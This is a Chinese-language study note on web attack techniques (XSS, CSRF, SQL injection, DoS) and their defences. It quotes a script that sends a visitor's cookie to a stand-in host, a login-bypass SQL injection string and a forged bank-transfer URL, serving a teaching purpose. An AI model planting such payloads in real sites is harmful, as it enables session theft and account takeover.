


# 攻击技术
<!-- GFM-TOC -->
* [攻击技术](#攻击技术)
    * [一、跨站脚本攻击](#一跨站脚本攻击) 🔥
    * [二、跨站请求伪造](#二跨站请求伪造)
    * [三、SQL 注入攻击](#三sql-注入攻击)
    * [四、拒绝服务攻击](#四拒绝服务攻击)
    * [参考资料](#参考资料)
<!-- GFM-TOC -->


## 一、跨站脚本攻击 🔥

### 概念

跨站脚本攻击（Cross-Site Scripting, XSS）指的是攻击者把 HTML 和 JavaScript 代码注入到其他用户浏览的网页中。这些代码以该网站的身份在用户的浏览器中运行，能读取该网站的 Cookie、以用户的身份发送请求。

主要有三种类型：

- 存储型：恶意代码保存在服务器上，例如论坛帖子，所有浏览该页面的用户都会受到攻击；
- 反射型：恶意代码放在 URL 参数中，服务器直接把它输出到页面上，需要诱导用户点击该 URL；
- DOM 型：前端 JavaScript 直接把不可信的数据写入 DOM，服务器没有参与。

### 攻击原理

例如有一个论坛网站，攻击者可以在上面发布以下内容：

```html
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

之后该内容可能会被渲染成以下形式：

```html
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

另一个用户浏览了含有这个内容的页面将会跳转到 domain.com，并把该论坛的 Cookie 作为参数带过去。如果这个论坛网站通过 Cookie 管理用户登录状态，并且这个 Cookie 没有设置 HttpOnly，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

<div align="center">  </div><br>

### 危害

- 窃取用户的 Cookie；
- 伪造虚假的输入表单骗取个人信息；
- 显示伪造的文章或者图片；
- 以用户的身份向网站发起请求。

### 防范手段

#### 1. 设置 Cookie 为 HttpOnly

设置了 HttpOnly 的 Cookie 可以防止 JavaScript 脚本调用，就无法通过 document.cookie 获取用户 Cookie 信息。需要注意的是，它只能防止 Cookie 被偷走，注入的脚本仍然可以在页面中以用户的身份发送请求，浏览器会照常带上这个 Cookie。

#### 2. 转义特殊字符

在把用户输入的数据输出到页面时进行转义，例如将 `<` 转义为 `&lt;`，将 `>` 转义为 `&gt;`，从而避免 HTML 和 JavaScript 代码的运行。输出到 HTML 标签、属性、JavaScript 代码和 URL 中需要使用不同的转义规则。

富文本编辑器允许用户输入 HTML 代码，就不能简单地将 `<` 等字符进行过滤了，极大地提高了 XSS 攻击的可能性。

富文本编辑器通常用基于白名单的 HTML 清理库来防范 XSS 攻击，例如前端的 DOMPurify、Java 的 OWASP Java HTML Sanitizer，只保留允许的标签和属性。黑名单很难列全危险的标签、属性和编码方式，容易被绕过。

以下例子是 js-xss 按默认白名单处理的结果：form 和 script 等标签被转义成文本，h1 和 p 等标签保留，但不在白名单中的 id 属性被去掉。

```html
<h1 id="title">XSS Demo</h1>

<p>123</p>

<form>
  <input type="text" name="q" value="test">
</form>

<pre>hello</pre>

<script type="text/javascript">
alert(/xss/);
</script>
```

```html
<h1>XSS Demo</h1>

<p>123</p>

&lt;form&gt;
  &lt;input type="text" name="q" value="test"&gt;
&lt;/form&gt;

<pre>hello</pre>

&lt;script type="text/javascript"&gt;
alert(/xss/);
&lt;/script&gt;
```

> [XSS 过滤在线测试](https://jsxss.com/zh/try.html)

#### 3. 内容安全策略

通过 Content-Security-Policy 首部告诉浏览器只允许执行来自指定来源的脚本，禁止内联脚本，这样注入到页面中的脚本不会被执行。效果取决于策略的配置（例如允许了 `'unsafe-inline'` 就挡不住内联脚本），它是补充的防线，不能代替转义。

## 二、跨站请求伪造

### 概念

跨站请求伪造（Cross-Site Request Forgery, CSRF）是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。浏览器向一个网站发请求时会自动带上该网站的 Cookie，从其它网站的页面发起的请求也一样（Cookie 的 SameSite 属性可以限制这一点，见下文），所以被访问的网站会认为是真正的用户操作而去执行。

XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户浏览器的信任。

### 攻击原理

假如一家银行用以执行转账操作的 URL 地址如下：

```text
http://www.examplebank.com/withdraw?account=AccountName&amount=1000&for=PayeeName
```

那么，一个恶意攻击者可以在另一个网站上放置如下代码：

```html

```

如果有账户名为 Alice 的用户访问了恶意站点，而之前刚访问过银行不久，登录信息尚未过期，那么就会损失 1000 美元。

<div align="center">  </div><br>

这种恶意的网址可以有很多种形式，藏身于网页中的许多地方。此外，攻击者也不需要控制放置恶意网址的网站。例如他可以将这种地址藏在论坛，博客等任何用户生成内容的网站中。这意味着如果服务器端没有合适的防御措施的话，用户即使访问熟悉的可信网站也有受攻击的危险。改为 POST 请求也不能解决问题，攻击者可以使用自动提交的表单。

通过例子能够看出，攻击者并不能通过 CSRF 攻击来直接获取用户的账户控制权，也不能直接窃取用户的任何信息。他们能做到的，是欺骗用户浏览器，让其以用户的名义执行操作。

### 防范手段

#### 1. 检查 Referer 首部字段

Referer 首部字段位于 HTTP 报文中，用于标识请求来源的地址。检查这个首部字段并要求请求来源的地址在同一个域名下，可以极大地防止 CSRF 攻击。

这种办法简单易行，仅需要在关键访问处增加一步校验。局限在于它依赖浏览器发送 Referer：网站可以用 Referrer-Policy 让浏览器不发送或只发送部分地址，部分隐私插件也会去掉它，请求中没有 Referer 时，放行会留下漏洞，拒绝又会误伤正常用户。因此它通常和 Origin 首部的检查一起，作为 Token 之外的补充。

#### 2. 添加校验 Token

在访问敏感数据请求时，要求用户浏览器提供不保存在 Cookie 中，并且攻击者无法伪造的数据作为校验。例如服务器生成随机数并附加在表单中，并要求客户端传回这个随机数。攻击者的网站受同源策略限制，无法读取到这个随机数。

#### 3. 设置 Cookie 的 SameSite 属性

SameSite=Strict 表示跨站请求不携带 Cookie，Lax 则只允许顶级导航的 GET 请求携带。Chrome、Edge 对没有设置 SameSite 的 Cookie 按 Lax 处理，Firefox、Safari 没有这样做，因此需要显式设置。设置为 Lax 时，上面例子中图片发出的请求不会带上 Cookie，但点击链接这类顶级导航的 GET 请求仍然会带，所以修改数据的接口不能用 GET。

#### 4. 输入验证码

因为 CSRF 攻击是在用户无意识的情况下发生的，所以对转账这类敏感操作，可以要求用户重新输入密码或短信验证码，确认的是本次操作，攻击者无法替用户完成。普通的图形验证码只用来区分人和程序，不能用来防范 CSRF。

## 三、SQL 注入攻击

### 概念

SQL 注入指的是攻击者在输入中混入 SQL 片段，服务器把输入直接拼接到 SQL 语句中，这些片段就被数据库当作语句的一部分执行。

### 攻击原理

例如一个网站登录验证的 SQL 查询代码为：

```text
strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
```

如果填入以下内容：

```text
userName = "1' OR '1'='1";
passWord = "1' OR '1'='1";
```

那么 SQL 查询字符串为：

```text
strSQL = "SELECT * FROM users WHERE (name = '1' OR '1'='1') and (pw = '1' OR '1'='1');"
```

两个括号中的条件对每一行都成立，不需要知道密码，查询就等价于：

```text
strSQL = "SELECT * FROM users;"
```

### 防范手段

#### 1. 使用参数化查询

Java 中的 PreparedStatement 是预先编译的 SQL 语句，可以传入适当参数并且多次执行。SQL 语句的结构在预编译时已经确定，传入的参数只会被当作数据，因此可以防止 SQL 注入的发生。

```java
PreparedStatement stmt = connection.prepareStatement("SELECT * FROM users WHERE name = ? AND pw = ?");
stmt.setString(1, name);
stmt.setString(2, pw);
ResultSet rs = stmt.executeQuery();
```

需要注意的是，MySQL 的 JDBC 驱动（Connector/J）默认并不在服务器上预编译，而是在客户端把参数中的单引号等字符转义后，拼成完整的语句发送。例如用 Connector/J 8.3 执行上面的查询，两个参数都传入 1' OR '1'='1，MySQL 通用查询日志中记录的是：

```text
Query    SELECT * FROM users WHERE name = '1'' OR ''1''=''1' AND pw = '1'' OR ''1''=''1'
```

参数仍然只是一个普通的字符串，查询结果为空。连接参数加上 useServerPrepStmts=true 后，驱动才会先发送 Prepare、再发送 Execute。两种方式都能防止注入，关键在于参数由驱动或数据库处理，而不是由开发者拼接。表名、列名和 ORDER BY 的字段不能使用占位符，只能用白名单校验，见 [MyBatis 的 #{} 和 ${}](Spring.md#-和--的区别)。

#### 2. 单引号转换

将传入的参数中的单引号转换为连续两个单引号，或者在单引号前加反斜线（MySQL 默认两种都支持）。PHP 的 Magic Quotes 曾经自动给单引号等字符加反斜线，但是因为不可靠，已经在 PHP 5.4 中移除，应该使用数据库驱动提供的转义函数，并且只在无法使用参数化查询时使用。

#### 3. 最小权限

应用连接数据库的账号只授予必要的权限，即使发生注入也无法执行删库等危险操作。

## 四、拒绝服务攻击

拒绝服务攻击（Denial-of-Service Attack, DoS）的目的在于使目标电脑的网络或系统资源耗尽，使服务暂时中断或停止，导致其正常用户无法访问。

分布式拒绝服务攻击（Distributed Denial-of-Service Attack, DDoS），指攻击者使用两个或以上被攻陷的电脑作为“僵尸”向特定的目标发动“拒绝服务”式攻击。

常见类型：

- 流量型：用海量数据包耗尽目标的带宽，例如 UDP Flood，以及利用 DNS、NTP 等服务的反射放大攻击；
- 协议型：耗尽服务器的连接资源，例如 SYN Flood 只发送 SYN 报文而不完成三次握手，使服务器维持大量半连接；
- 应用层：发送大量消耗服务器资源的正常请求，例如 HTTP Flood（CC 攻击）。

防范手段：

- 使用 CDN、高防 IP 等服务对流量进行清洗；
- 使用 SYN Cookie 应对 SYN Flood，服务器在握手完成之前不为连接分配资源；
- 在应用层进行限流，并通过验证码区分正常用户和攻击程序。

## 参考资料

- [维基百科：跨站脚本](https://zh.wikipedia.org/wiki/%E8%B7%A8%E7%B6%B2%E7%AB%99%E6%8C%87%E4%BB%A4%E7%A2%BC)
- [维基百科：SQL 注入攻击](https://zh.wikipedia.org/wiki/SQL%E8%B3%87%E6%96%99%E9%9A%B1%E7%A2%BC%E6%94%BB%E6%93%8A)
- [维基百科：跨站点请求伪造](https://zh.wikipedia.org/wiki/%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0)
- [维基百科：拒绝服务攻击](https://zh.wikipedia.org/wiki/%E9%98%BB%E6%96%B7%E6%9C%8D%E5%8B%99%E6%94%BB%E6%93%8A)
- [OWASP Cross Site Scripting Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP Cross-Site Request Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
- [MDN: Set-Cookie](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Set-Cookie)
- [OWASP Input Validation Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html)
